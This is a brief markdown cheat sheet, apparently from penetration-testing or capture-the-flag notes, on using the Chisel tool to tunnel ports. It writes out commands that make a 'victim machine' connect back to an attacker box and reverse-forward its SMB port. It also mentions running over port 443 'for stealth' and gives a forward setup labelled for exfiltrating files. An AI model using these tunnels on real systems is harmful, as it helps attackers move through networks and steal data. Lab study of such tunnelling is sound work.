 ## How to Forward Ports with Chisel

--> It's really easy and helpful because you can **expose internal ports!!!**

**server (Kailbox):** 

--> Enable reveres forwarding
```
./chisel server --reverse
```

**client (victim machine)**

--> Connect back to server and reverse forward:

```
chisel client 10.10.14.25:8080 R:2222:localhost:445
```

--> You can do more with this as well like setup ssl, and ports over 443 for stealth.  
--> Read more at:  
https://github.com/jpillora/chisel


---
<br/>


## Basic local forward from local host:
--> If yo want to exfil files or something

```
chisel server --port 13000

chisel client 10.10.14.16 13000
```
